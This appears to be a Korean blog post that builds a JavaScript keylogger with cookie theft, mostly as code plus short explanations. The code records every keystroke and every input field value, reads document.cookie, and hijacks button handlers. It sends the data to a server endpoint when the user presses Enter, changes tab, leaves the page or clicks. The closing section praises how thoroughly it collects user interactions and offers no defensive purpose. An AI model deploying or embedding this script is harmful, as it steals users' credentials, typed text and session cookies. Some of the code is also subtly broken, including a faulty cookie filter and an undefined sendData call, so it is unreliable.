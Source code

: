 <hr />

# Keylogger js 구현
> `javascript`로 `keylogger` 및 `쿠키 탈취`를 구현한다.

---

## 주요 기능 구상

1. 데이터 셋팅
    - 어떤 타입으로 왔는지
    - 버튼 이벤트 체크
    - 사용자가 타이핑 했던 값들
    - input 태그의 값들
    - 쿠키 값들
2. 타이핑 값 셋팅
3. 이벤트 발생 시 셋팅 데이터 발송
    - 엔터 이벤트
    - 화면이 안보일 때
    - 화면이 바뀌었을 때
    - 버튼을 눌렀을 때

---

## 1. 데이터 셋팅
>   - 어떤 타입으로 왔는지
>   - 버튼 이벤트 체크
>   - 사용자가 타이핑 했던 값들
>   - input 태그의 값들
>   - 쿠키 값들
---

```javascript
function setData(type, btnElement){
    const inputList = [];
    const inputs = document.querySelectorAll("input");
    inputs.forEach(i=>{
        const id = {
            "name" : i.name,
            "id" : i.id,
            "value" : i.value
        }
        inputList.push(id);
    });
    const buttonAttr = btnElement ? {"btnYn" : true} : {"btnYn" : false};

    if(btnElement){
        Array.from(btnElement.attributes).forEach(attr => {
            const key = attr.name;
            const value = attr.value;
            let processValue;

            if(btnElement[key] && typeof btnElement[key] === "function"){
                processValue = btnElement[key].toString();
            } else {
                processValue = value;
            }
            buttonAttr[key] = processValue;
        });
    }

    const cookies = document.cookie.split(";").map(cookie =>{
        const [key, value] = cookie.split("=");
        return {[key] : value};
    }).filter(cookie => cookie.key !== "" && typeof cookie.value !== "undefined");

    const req = {
        "type" : type,
        "inputList" : inputList,
        "keyData" : keyData,
        "cookies" : cookies,
        "btnYn" : buttonAttr
    }

    return req;
}
```
#### 설명
> - `input`태그들을 들고와서 for문으로 값들을 가지고와서 배열에 넣어둠
> - 버튼이 있다면 `true`, 없다면 `false` 셋팅
>   - 버튼이 있다면 `attributes`로 값을 list에 넣어서 for문 돌려서 값들을 빼냄
>   - 함수가 걸려 있다면 함수도 같이 집어 넣음
>   - 함수가 안걸려 있다면 그냥 value값을 집어 넣음
>   - 버튼의 `attribute`가 `key`가 되고 `value`를 `value`로 설정 후 배열에 넣어둠
> - `cookie`를 가지고와서 `key`,`value`로 분리 후에 배열에 집어 넣음
> - 모든 값을 `json`형태의 객채로 만들어서 `return` 시킴

---

## 2. 타이핑 값 셋팅

```javascript
    // 전역 변수설정
    let keyData ="";

    // 키로깅 함수
    function keylogging(e){
        if(e.code === "Enter" || e.code === "NumpadEnter"){
            sendData(null, "pressEnter");
        } else {
            keyData += e.key;
        }
    }

    window.onkeydown = (e) => keylogging(e);
```
#### 설명
> - `keyData` 전역 변수 설정
> - `keylogging`함수 생성
>   - `Enter` 누르거나 `NumpadEnter`누를 시에 데이터 전송 함수 실행
>   - 다른 키를 누른다면 전역 변수에 계속 누적

---

## 3. 이벤트 발생 시 셋팅 데이터 발송
>    - 엔터 이벤트
>    - 화면이 안보일 때
>    - 화면이 바뀌었을 때
>    - 버튼을 눌렀을 때

```javascript
// 화면이 안보일 때 발송
document.addEventListener("visibilitychange", ()=>{
    if(document.visibilityState === "hidden"){
        fetch("/test/keylogger", {
            method: "POST",
            headers: {
                "Content-Type": "application/json; charset=UTF-8"
            },
            body: JSON.stringify(setData("visibilitychange"))
        });
        keyData = '';
    }
});

// 화면이 변경 되면 발송
window.addEventListener("beforeunload", (e)=>{
    fetch("/test/keylogger", {
        method: "POST",
        headers: {
            "Content-Type": "application/json; charset=UTF-8"
        },
        body: JSON.stringify(setData("beforeunload"))
    });
});

// 버튼 클릭시 발송
window.onload = (()=>{
    let btns = document.querySelectorAll("button");
    btns.forEach(btn => {
        origin = btn.onclick===null ? (()=>{}) : btn.onclick.bind({});
        btn.onclick = () =>{
            sendData(btn, "btnSend");
            origin();
        }
    });
});
```
#### 설명
> - 문서에 화면이 `hidden` 상태(다른탭으로 이동 시)가 되면 `fetch`를 통해 비동기로 데이터 발송
> - 문서가 다른 화면으로 변경 시에 `fetch`를 통해 비동기로 데이터 발송
> - 버튼 클릭 시에 데이터 발송
>   - 기존의 버튼 이벤트는 문서 발송 이후에 실행 하도록 설정

---
## 4. 결과 이미지
#### 화면이 안보일 때
![화면이 안보일 때](https://jeongmooon.github.io/img/report/keylogger/visibilitychange.png)

#### 화면이 바뀌었을 때
![화면이 바뀌었을 때](https://jeongmooon.github.io/img/report/keylogger/beforeunload.png)

#### 버튼을 눌렀을 때
![화면이 바뀌었을 때](https://jeongmooon.github.io/img/report/keylogger/btnSend.png)

---

## 5. 결론
> Keylogger 스크립트는 사용자의 입력, 버튼 클릭, 페이지 이동 등의 주요 이벤트를 감지하여 입력 데이터, 쿠키 정보 등을 실시간으로 수집하고 서버로 전송하는 기능을 구현.
> - setData를 통해 수집된 데이터는 `fetch` API를 사용하여 비동기적으로 안전하게 서버로 전송.
> - 모든 전송은 `application/json; charset=UTF-8` 포맷으로 설정되어 있으며, 서버는 이를 JSON 형태로 받아 처리함.
> - 주요 이벤트(타이핑, Enter, 탭 이동, 페이지 언로드, 버튼 클릭 등)를 포괄적으로 커버함으로써 실질적으로 거의 모든 사용자의 상호작용을 수집함.
>
> 추가적으로, 서버와의 문자 인코딩 이슈(한글 깨짐 등)를 방지하기 위해 반드시 서버 측에서도 UTF-8 인코딩 설정을 일관되게 유지.
> 최종적으로 본 스크립트는 다양한 상황에서도 데이터 누락 없이 사용자 행동 데이터를 안정적으로 수집하는 데 목적을 가짐.

<hr />